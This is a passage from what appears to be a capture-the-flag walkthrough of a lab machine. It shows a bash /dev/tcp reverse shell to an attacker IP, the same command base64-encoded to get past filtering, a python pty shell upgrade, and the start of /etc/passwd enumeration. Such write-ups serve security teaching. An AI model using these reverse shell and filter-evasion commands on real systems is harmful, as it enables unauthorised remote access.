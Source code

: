 nice we got a reply , now Let's have a reverse shell !

![Alt Text](https://media.giphy.com/assets/images/uNp22kQO4QCxa/giphy.gif)

however when i tried `sh -i >& /dev/tcp/10.10.16.106/9090 0>&1` it doesn't return a connection back so i though maybe the spaces and special characters are the reason .

```bash
echo "sh -i >& /dev/tcp/10.10.16.106/9090 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTA2LzkwOTAgMD4mMQo=
```

![image](/assets/images/devzat/20220311143241.png)

and finally :

![image](/assets/images/devzat/20220311143301.png)

spawn a tty shell:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
ctrl+z
stty raw -echo ;fg
Enter key x2
export TERM=xterm
```

and we have a nice shell as **patrick** user on the machine

## Enumerating the machine

at the `/etc/passwd ` we can see this strange **backup**

```
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
```
